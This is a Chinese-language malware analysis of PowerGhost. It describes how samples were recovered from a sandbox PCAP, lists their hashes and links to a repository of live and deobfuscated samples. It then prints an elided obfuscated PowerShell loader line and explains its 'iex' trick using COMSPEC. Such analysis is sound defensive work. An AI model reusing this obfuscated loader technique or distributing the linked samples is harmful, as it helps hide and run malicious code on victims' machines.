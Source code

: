 ```yaml
---
nav_path_prefix: Security > Malwares >
---
```


# PowerGhost

## 获取样本

我到场时距离感染有很长一段时间了，相关远控域名和 IP 更换过很多次，没法下载到原始样本。而 PowerGhost 采用大量的无文件技术，主机上没有可供分析的文件。并且因为多次人工处置和 EDR 查杀，病毒下载的攻击模块文件也没有找到。

好在 `auth[.]to0ls[.]com` 的微步情报中有许多历史样本分析报告，其中 `vercheck.ps1:4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5` 行为表现基本和 EDR 记录的一致，分析报告信息也比较多，于是以这个为参考进行样本分析。

- [ThreatBook 沙箱分析报告：vercheck.ps1](https://s.threatbook.com/report/file/4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5)

我不是高贵的付费版用户，无法直接下载样本，但衍生文件中的 [PCAP](https://s.threatbook.com/apis/sample/download/4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5?type=pcap) 记录了病毒的通信，里面包含了病毒样本文件。

相关文件我提取出来放在了 [13m0n4de/powerghost-malware-samples](https://github.com/13m0n4de/powerghost-malware-samples)。

| file                   | sha256                                                           |
| ---------------------- | ---------------------------------------------------------------- |
| samples/antitrojan.ps1 | 9912469166d52ca562ca9c511b596e6b07208d17f1bb7692b319b66e23917534 |
| samples/ver.txt        | b6403da9b22abe355ad17208a336e658322c5d1d7ff646ca7b9229237ba4aef4 |
| samples/vercheck.ps1   | 7ee86cbe0feee32839960199822c3f866b12e42daf290268fe6d9d6e4408242f |
| samples/antivirus.php  | bf08b690bc8bb6382d7e863f45f59ce7aae325d0dd587101dab5de15e39a184b |

混淆还原后的文件在 [deobfuscated](https://github.com/13m0n4de/powerghost-malware-samples/tree/main/deobfuscated)。

## vercheck.ps1

原始样本：[vercheck.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/samples/vercheck.ps1)。

```powershell
 & ( $enV:cOMsPEC[4,15,25]-JoiN'') (('28@...dya' -SpLIt 'N' -SPlIt '@'-SPlIt'm'-sPLiT '-'-SpLit'%' -SpliT'Q'-sPLiT 'y' -split'p' | FOrEACH{ ( [COnvErT]::TOinT16(([striNG]$_ ) , 16) -aS[ChAR]) } )-jOiN '' )
```

脚本开始部分 `& ($enV:cOMsPEC[4,15,25]-JoiN'')` 从环境变量 `COMSPEC` 中提取索引为 4、15、25 的字符，将其拼接之后执行。

`COMSPEC` 环境变量通常指向 `C:\Windows\System32\cmd.exe`，那么：

- 索引 4：`i`
- 索引 15：`e`
- 索引 25：`x`
